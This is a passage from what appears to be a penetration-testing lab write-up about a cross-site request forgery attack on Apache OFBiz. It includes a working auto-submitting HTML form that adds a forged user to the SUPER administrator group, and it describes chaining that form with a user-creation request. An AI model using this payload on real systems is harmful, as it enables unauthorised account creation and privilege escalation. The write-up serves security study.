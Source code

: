 When we visit `/localhost/ofbiz.html` a `GET` request will be initiated, which will then create a `POST` request to `ofbiz:8443/webtools/control/createUserLogin`, and the `csrftest` user will be created. Note that our cookies were included within this request and that the `Origin` and `Referer` headers let us know that the request came from `localhost` (Figure 6).

<figure><img src="../../../.gitbook/assets/offsec_ofbiz_4.png" alt=""><figcaption><p>Figure 8: Creating the <code>csrftest</code> user.</p></figcaption></figure>

Next, we will go through the same process for the privilege escalation step.

{% code title="ofbiz1.html" overflow="wrap" %}
```html
<html>
        <body onload="document.forms['csrf'].submit()">
                <form action="https://ofbiz:8443/webtools/control/addUserLoginToSecurityGroup" method="post" name="csrf">
                        <input type="hidden" name="groupId" value="SUPER">
                        <input type="hidden" name="userLoginId" value="csrftest">
                        <input type="hidden" name="fromDate_i18n">
                        <input type="hidden" name="fromDate">
                        <input type="hidden" name="thruDate_i18n">
                        <input type="hidden" name="thruDate">
                </form>
        </body>
</html>
```
{% endcode %}

Now, we have to combine both forms and have them submitted sequentially via implementing some JavaScript code. We will also change the username name to `crsftestuser` to differentiate from the previous user.

{% hint style="warning" %}
_This approach is not ideal as some **JavaScripts calls can be asynchronous**, meaning that the`csrf2` form could be submitted before the`csrf` form. In this case, an extra line was added that sets up a 1 second delay between the two requests._
{% endhint %}
